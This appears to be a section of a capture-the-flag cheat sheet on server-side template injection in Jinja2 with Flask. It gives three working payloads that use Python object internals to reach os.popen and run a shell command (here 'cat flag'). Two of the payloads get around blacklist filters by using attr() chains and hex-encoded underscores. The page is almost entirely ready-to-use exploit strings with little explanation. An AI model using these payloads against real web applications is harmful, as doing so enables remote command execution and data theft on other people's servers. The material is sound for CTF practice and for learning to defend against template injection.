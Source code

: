 ## Server Side Template Injection

#### Python Jinja2 (with Flask)
- <a href="https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/">Good Resource</a>
- Exploit by calling subprocess.Popen
  ```Python
  # Simple version
  {{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
  # Circumvent blacklisted special characters leveraging Jinja's attr(), pipe filtering, and hex encoding of underscores
  {{config|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
  # Another example
  {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
  ```
